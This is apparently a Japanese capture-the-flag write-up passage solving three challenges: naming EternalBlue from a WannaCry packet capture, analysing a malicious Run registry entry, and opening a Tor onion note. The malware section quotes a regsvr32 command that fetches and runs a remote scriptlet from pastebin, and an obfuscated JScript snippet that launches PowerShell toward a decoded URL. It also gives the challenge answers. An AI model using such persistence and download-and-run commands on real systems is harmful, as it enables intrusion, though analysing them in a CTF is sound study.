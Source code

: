 ## [NETWORK 80] 通信記録

pcap ファイルが与えられるので、解析して突かれた脆弱性の名前を答えるという問題でした。

`www.iuqerfsodp9ifjaposdfjhgosurijfaewrwergwea.com` の名前解決をしている通信があったことから、WannaCry に感染した様子をキャプチャしたものと考えました。

`MS17-010` や `CVE-2017-0144` を試したものの通らず、`EternalBlue` を試したところ正解でした。

```
EternalBlue
```

## [MALWARE 80] 不審起動

以下のような不審なレジストリが見つかったので、これによって実行されるスクリプトを解析して通信先の FQDN を答えるという問題でした。

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
"COM"="regsvr32 /s /n /u /i:https://pastebin.com/raw/8CUEUgix scrobj.dll"
```

とりあえず https://pastebin.com/raw/8CUEUgix にアクセスすると、難読化された JScript のスクリプトがありました。

```javascript
        url = '\x68\x74\x74\x70\x73\x3a\x2f\x2f\x6d\x74\x69\x70\x2e\x6d\x61\x63\x6e\x69\x63\x61\x2e\x6e\x65\x74';
        showexec = 0x0;
        wshel = new ActiveXObject(_0xd5bd('0x1b'));
        fso = new ActiveXObject(_0xd5bd('0x1c'));
        if (is_ps_installed() && is_dotnet_installed()) {
            wmi_create_process(pspath + _0xd5bd('0x1d') + url + '\x2f\x70\x31\x27\x29\x29', showexec);
        }
```

`url` をデコードすると `'https://mtip.macnica.net'` という文字列が出てきました。

```
mtip.macnica.net
```

## [MISC 90] 脅迫文書

```
http://nzxj65x32v
h2fkhk.onion/phcg
nxm6j/4xvucf

0b3y!!
```

と書かれたメモの画像が与えられました。

URL の TLD が onion なので Tor Browser や Tor2web でアクセスし、`0b3y!!` をパスワードとして入力するとフラグが表示されました。

```
TORPASTEBIN
```
